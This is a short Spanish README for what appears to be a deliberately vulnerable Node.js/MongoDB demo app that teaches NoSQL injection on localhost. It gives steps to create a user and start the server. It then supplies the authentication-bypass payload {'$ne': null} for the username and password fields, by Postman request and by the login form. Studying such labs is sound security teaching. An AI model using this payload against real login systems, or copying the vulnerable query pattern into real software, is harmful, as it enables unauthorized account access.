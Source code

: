 # NoSQL Injection

Poryecto de una aplicación con una vulnerabilidad NOSQL

## Crear usuario

Creamos un usuario

```bash
node .\crearUsuario.js
```

## Levantamos el servidor

```bash
node .\conection.js
```

Observe el formulario en "http://localhost:3000/login"

Desde Postman en una peticion POST agregue el siguientre cuerpo

```python
{
   "username": { "$ne": null },
   "password": { "$ne": null }
}
```

## Formulario

En el campo usuario y contraseña ingrese: 

```python
{ "$ne": null }
```
